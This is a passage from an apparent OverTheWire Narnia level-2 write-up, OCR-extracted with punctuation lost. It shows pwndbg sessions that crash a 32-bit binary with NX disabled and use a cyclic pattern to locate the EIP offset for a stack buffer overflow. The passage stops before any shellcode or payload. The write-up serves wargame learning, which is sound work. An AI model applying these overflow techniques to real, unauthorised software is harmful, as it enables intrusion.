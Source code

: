 This is a 32 bit binary  It is not stripped which means the debug symbols will still be present within the binary  Furthermore  NX is disabled so we might be able to inject shellcode into the buffer and have the binary execute it  To detect a buffer overflow vulnerability  a large string of bytes were sent 

     reports Narnia image12 png 

    Binary Analysis

We can see that the program errors out with a  Segmentation fault  error  It is essential to investigate further into what might be happening by using a debugger program such as gdb  There are other great debugger programs such as radare2  IDA  Ghidra  among many others  and each one of them has their strengths and weaknesses  gdb and radare2 tend to be very strong dynamic analysis debugger programs  while Ghidra and IDA are more useful for static analysis  

   highlight bash   
pwndbg  r   python2  c  print  A  1000                                                                                                                                
Starting program   home 0xd4y business other overthewire narnia 2 narnia2   python2  c  print  A  1000                                                                        
                                                                                       
Program received signal SIGSEGV  Segmentation fault                                   0x41414141 in                                                                                                                                                                LEGEND  STACK   HEAP   CODE   DATA   RWX   RODATA                                      
                                      REGISTERS                                       EAX  0x0                                                                             EBX  0x0                                                                                                                                                                   ECX  0x0                                                                                                                                                                   EDX  0x0  
EDI  0xf7fa6000   GLOBAL OFFSET TABLE       insb   byte ptr es  edi   dx    0x1e4d6c   ESI  0xf7fa6000   GLOBAL OFFSET TABLE       insb   byte ptr es  edi   dx    0x1e4d6c   EBP  0x41414141   AAAA    
ESP  0xffffcc60     0x41414141   AAAA    
EIP  0x41414141   AAAA    
                                                                                   DISASM                                                                                      
Invalid address 0x41414141
   endhighlight   

     Calculating EIP Offset

After running the program in gdb and providing 1000 A s as the argument  the EIP register was successfully overwritten to 0x41414141  To find the offset  the cyclic function can be used as follows 

   highlight bash   
pwndbg  r   cyclic 1000                                                                                                                                               11 205   
Starting program   home 0xd4y business other overthewire narnia 2 narnia2   cyclic 1000   
                                                                                                                                                                             
Program received signal SIGSEGV  Segmentation fault   
0x62616169 in      LEGEND  STACK   HEAP   CODE   DATA   RWX   RODATA  
                                      REGISTERS                                       EAX  0x0       EBX  0x0       ECX  0x0       EDX  0x0       EDI  0xf7fa6000   GLOBAL OFFSET TABLE       insb   byte ptr es  edi   dx    0x1e4d6c                                                                                         ESI  0xf7fa6000   GLOBAL OFFSET TABLE       insb   byte ptr es  edi   dx    0x1e4d6c   EBP  0x62616168   haab    
ESP  0xffffcc60     0x6261616a   jaab    
EIP  0x62616169   iaab    
                                                                                   DISASM                                                                                      
Invalid address 0x62616169
   endhighlight   
